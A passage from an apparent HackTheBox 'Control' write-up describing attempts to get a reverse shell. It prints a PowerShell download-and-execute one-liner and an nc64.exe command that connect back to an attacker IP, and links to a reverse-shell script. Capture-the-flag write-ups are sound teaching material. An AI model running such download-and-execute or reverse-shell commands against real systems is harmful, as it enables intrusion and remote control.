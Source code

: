 ```powershell
powershell  -exec bypass-c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.63/pshell.ps1') | powershell -noprofile -"
```


I then URL encoded the payload in Burp's Encoder, and sent it to the target via `curl`. Although I could see the target fetching the script from my attack machine, I didn't get a connection.  


I also used the following payload, to make the target execute `nc64.exe` hosted by an SMB server on my attack machine, and connect back to me through the UNC path:

```powershell
cmd -c "\\10.10.14.63\c\nc64.exe -e cmd 10.10.14.63 443"
```

This completely faild, as I didn't even get a connection to my SMB server. I also tried executing similar methods using a base64 encoded string with powershell but to no avail.


Eventually, I tried to use [this powershell script](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1) from `martinsohn`. I used the same setup as with `Nishang`'s script. and this time it worked:

![shell-28](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Control/img/shell-28.png)


Maybe there is an anti-virus blocking Nishang's script?


At any case, let's get to privesc! 


## Privilege Escalation

If we have a look around the `C:\\inetpub\wwwroot` directory, we can see the following:
